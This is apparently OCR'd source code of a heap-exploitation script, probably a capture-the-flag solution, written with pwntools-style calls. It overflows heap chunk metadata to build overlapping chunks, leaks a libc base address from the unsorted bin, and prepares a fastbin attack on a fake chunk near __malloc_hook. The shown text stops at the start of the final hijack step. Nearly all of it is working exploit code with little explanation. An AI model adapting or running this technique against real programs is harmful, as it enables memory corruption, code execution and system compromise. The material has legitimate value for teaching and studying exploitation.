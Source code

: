 ```
r.sendline(str(idx))

def echo(idx):
r.recvuntil("Command: ")
r.sendline("4")
r.recvuntil("Index: ")
r.sendline(str(idx))

#MAIN EXPLOIT

#memory leak
#step1
new(0x90) #idx.0 to unsorted bin
new(0x90) #idx.1 to unsorted bin
new(0x90) #idx.2 to unsorted bin
new(0x90) #idx.3 to unsorted bin
new(0x90) #idx.4 for protect
delet(1)
print("step1")
#step2
payload_expand = 'A'*0x90 + p64(0) + p64(0x141)
edit(0,len(payload_expand),payload_expand)
print("step2")
#step3
payload_mergefk = 'A'*0x90 + p64(0x140) + p64(0xa0)
edit(2,len(payload_mergefk),payload_mergefk)
print("step3")
#step4
delet(3)
print("step4")
#step5
new(0x1d0)
print("step5")
#step6
payload_crrct = 'A'*0x90 + p64(0) + p64(0xa1) + 'A'*0x90 + p64(0) + p64(0xa1)
edit(1,len(payload_crrct),payload_crrct)
print("step6")
#step7
delet(2)
print("step7")
#step8
echo(1)
r.recvuntil("Content: n")
print(r.recv(0x90 + 0x10))
fd = u64( r.recv(8) )
libc_unsort = fd
libc_base = libc_unsort - 0x3c4b78
print("step8")
print(hex(libc_base))

#hijack overflow
#the present idx_table has inuse logs: 0 , 1 , 4 ,wait-queue: 2 , 3 , 5 , 6 , ...
new(0x90) #idx.2 clean the heap-bins environment
new(0x10) #idx.3 for overflow
new(0x60) #idx.5 to fastbin[5] 
new(0x10) #idx.6 for protect
delet(5) #NOTICE: idx.5 recycled after here !!!
#x = input("debug")
malloc_hook_fkchunk = libc_base + 0x3c4aed
payload_hj = 'A'*0x10 + p64(0) + p64(0x71) + p64(malloc_hook_fkchunk)
edit(3,len(payload_hj),payload_hj)

#hijack attack
```